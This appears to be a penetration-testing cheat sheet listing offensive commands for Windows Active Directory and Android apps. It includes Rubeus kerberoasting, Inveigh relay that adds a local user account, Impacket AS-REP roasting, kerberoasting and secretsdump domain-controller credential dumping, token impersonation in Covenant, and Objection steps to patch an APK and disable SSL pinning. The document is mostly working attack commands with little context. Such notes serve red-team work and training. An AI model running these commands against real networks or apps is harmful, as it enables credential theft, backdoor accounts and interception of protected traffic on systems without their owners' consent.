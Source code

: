 ### Invoke-Mimikatz.ps1

### Rubeus

### Covenant

```bash

# Commands
ImpersonateProcess 1776
ImpersonateProcess <PID>

# Rubeus
- Rubeus kerberoast admin hashcat
- Rubeus klist


# Import Powershell
- PowerShellImport 
- Choose file


# Powerview.ps1
- Powershell Get-DomainUser -TrustedToAuth


# Inveigh
- Powershell Invoke-InveighRelay -ConsoleOutput -Y -StatusOutput N -Command "net user commandtest Passw0rd123! /add" -Attack Enumerate,Execute,Session
- Powershell Invoke-Inveigh -ConsoleOutput Y

```

### Impacket Tools

```bash
# GetNPUsers.py
GetNPUsers.py -dc-ip 10.10.10.10 -request 'bank.local/' -no-pass -usersfile user.txt -format hashcat

# GetUserSPNs.py
GetUserSPNs.py bank.local/nik:'Password@123!' -dc-ip 10.10.10.10 -request -outputfile output.txt

# secretsdump.py
secretsdump.py -just-dc bank.local/nik:'Password@123!'@10.10.10.10
```

### Objection

```bash
# Install 
pip3 install -U objection 

# Commands (Step By Step) 
- objection patchapk --source base.apk 
- adb install base.objection.apk 
- objection explore (Make sure to open the application first in our mobile phone before run) 
	* android sslpinning disable 

# References 
- https://gowthamr1.medium.com/android-ssl-pinning-bypass-using-objection-and-frida-scripts-f8199571e7d8 
- https://github.com/sensepost/objection/tree/master/objection/console/helpfiles
```
